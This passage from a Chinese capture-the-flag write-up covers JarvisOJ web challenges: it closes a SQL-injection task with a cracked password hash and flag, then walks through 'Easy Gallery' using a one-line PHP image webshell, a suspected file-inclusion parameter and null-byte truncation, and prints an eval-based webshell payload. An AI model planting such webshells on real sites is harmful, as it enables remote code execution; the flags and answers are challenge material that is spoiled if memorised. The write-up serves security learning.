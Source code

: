 &emsp;&emsp;最后得到password的值为334cfb59c9d74849801d5acdcfdaadc3。

&emsp;&emsp;解md5后得:eTAloCrEP。

&emsp;&emsp;登陆后得到flag:CTF{s1mpl3_1nJ3ction_very_easy!!}

## Easy Gallery

&emsp;&emsp;打开是一个网站，submit和view界面分别可以上传图片和查看图片：

![](/img/JarvisOJ-WEB-2/WEB4.png)

![](/img/JarvisOJ-WEB-2/WEB5.png)

&emsp;&emsp;上传图片有验证，修改上传文件后缀和抓包更改content-type都不行。猜测验证机制在后台并且会检测文件头，那只能选择一句话图片马了。上传之后会返回图片ID，在view界面输入id和type可以看到自己的图片。

&emsp;&emsp;但是这并没有什么用啊，没法执行。查看主页url发现一个很有趣的参数page，猜测这个参数存在文件包含漏洞。尝试了一下，提示里有信息：

![](/img/JarvisOJ-WEB-2/WEB6.png)

&emsp;&emsp;系统会给文件自动添加一个.php的后缀，尝试%00截断，没有回显。应该是存在截断漏洞，但是被某种方法防护了。猜测是后台过滤了一些东西，找了些提示：

```PHP
<script language="php">@eval_r($_POST['a']);</script>
```
